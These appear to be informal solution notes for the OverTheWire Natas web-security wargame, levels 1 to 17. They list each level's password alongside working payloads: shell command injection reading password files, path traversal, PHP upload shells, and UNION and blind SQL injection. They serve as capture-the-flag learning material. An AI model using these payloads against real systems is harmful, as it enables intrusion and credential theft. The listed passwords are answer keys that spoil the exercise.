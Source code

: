 * 1: gtVrDuiDfck831PqWsLEZy5gyDz1clto

* 2: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

go to URL/files
users.txt will have the password

* 3: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

websites have URL/robots.txt so that google can find it
go to URL/s3cr3t

* 4: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ


go to natas5 
copy the button in natas 4, inspect element and add it to natas5
click it

curl -e http://natas5.natas.labs.overthewire.org/ -u natas4 http://natas4.natas.labs.overthewire.org/index.php

dash e is referal. 

* 5: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Cookies. curl -i -u natas5 http://natas5.natas.labs.overthewire.org/

document.cookie="loggedin=1"
look at the memory side of console 

* 6: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

go to URL/includes/secret.inc
$_POST gets information through http headers. 
$_GET gets information through URLS

* 7: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

* 8: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

var_dump(base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362"))));

* 9: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

; cat /etc/natas_webpass/natas10; 
passthru will run bash code

* 10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

; = %3B
& = %26

passthru("grep -i $key dictionary.txt");

"-F '' /etc/natas_webpass/natas11" 

       -F, --fixed-strings
Interpret PATTERN as a list of fixed strings (instead of 
regular expressions), separated by newlines, any of which is to be 
matched.


       -E, --extended-regexp
  Interpret PATTERN as an extended regular expression (ERE, see below).


* 11: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

You know you could've xor'ed the entire thing by itself

ciphertext = plaintext XOR key
ciphertext XOR plaintext = KEY bruhh

If i change 
$partialKey .= $text2[$i] ^ 'f';
into 
$partialKey .= $text1[$i] ^ '0';

it still works.

w8Jqw8
is the output. So

qw8J is the XOR key!! Any cyclic permutation of Jqw8

* 12: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

Inspect element. Change the filename to .php on the hidden. Inject a php
file in there , passthru() and cat the webpass

* 13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

get an image file, in the bottom write php code, and put it in the website

* 14: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

in username:
natas15"#

in password:
hi" UNION select * from users where username not like "*

BROOOOO YOU CAN HAVE COMMENTS!!!!!

* 15: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

natas16" and cast(password as binary) regexp '^..w' # 

loop through this. Maybe use python or something

blind based sql injection

couldve used the injection natas16" and password LIKE BINARY"

* 16: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

$(grep -o ^. /etc/natas_webpass/natas17)
$(cut -c 2 /etc/natas_webpass/natas17)

_PS_H_GWBN_rD_S_GMADGqNDKHPKq_CW
_Ps_H_GWbn_rd_S_GmAdgQNdkhPkq_cw

> Learn perl style regexes 
cat 16pass.txt | grep -oP '^.\K(a)'

^$(grep -oP ^.\K(P) /etc/natas_webpass/natas17)

* 17: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
